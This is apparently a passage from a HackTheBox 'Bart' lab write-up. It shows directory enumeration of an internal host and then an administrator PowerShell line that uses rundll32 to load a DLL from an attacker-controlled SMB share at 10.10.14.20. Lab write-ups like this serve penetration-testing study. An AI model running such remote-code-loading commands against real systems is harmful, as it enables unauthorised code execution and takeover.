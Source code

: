 ![](pics/internalmonitor.JPG)

Another quick check for things on that internal-01.bart.htb and there is this log.txt file that contains 1 record of harvey and his user agent.
```bash
$ dirsearch.py -u http://internal-01.bart.htb -e php,txt

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php, txt | Threads: 10 | Wordlist size: 6344

Error Log: /root/git/dirsearch/logs/errors-19-07-10_22-10-58.log

Target: http://internal-01.bart.htb

[22:10:58] Starting: 
[22:10:59] 403 -  312B  - /%2e%2e/google.com
[22:11:00] 301 -  172B  - /.git/logs/refs/heads  ->  http://internal-01.bart.htb/.git/logs/refs/heads/
[22:11:00] 301 -  166B  - /.git/logs/refs  ->  http://internal-01.bart.htb/.git/logs/refs/
[22:11:00] 301 -  174B  - /.git/logs/refs/remotes  ->  http://internal-01.bart.htb/.git/logs/refs/remotes/
[22:11:00] 301 -  181B  - /.git/logs/refs/remotes/origin  ->  http://internal-01.bart.htb/.git/logs/refs/remotes/origin/
[22:11:00] 301 -  167B  - /.git/refs/heads  ->  http://internal-01.bart.htb/.git/refs/heads/
[22:11:00] 301 -  169B  - /.git/refs/remotes  ->  http://internal-01.bart.htb/.git/refs/remotes/
[22:11:00] 301 -  176B  - /.git/refs/remotes/origin  ->  http://internal-01.bart.htb/.git/refs/remotes/origin/
[22:11:00] 301 -  166B  - /.git/refs/tags  ->  http://internal-01.bart.htb/.git/refs/tags/
[22:11:34] 302 -    4B  - /index.php  ->  simple_chat/login_form.php
[22:11:34] 302 -    4B  - /INDEX.PHP  ->  simple_chat/login_form.php
```

[localhost]: PS C:\Users\Administrator\Documents> whoami
[localhost]: PS C:\Users\Administrator\Documents> cmd.exe /c "rundll32.exe \\10.10.14.20\BLAH\64443.dll,0"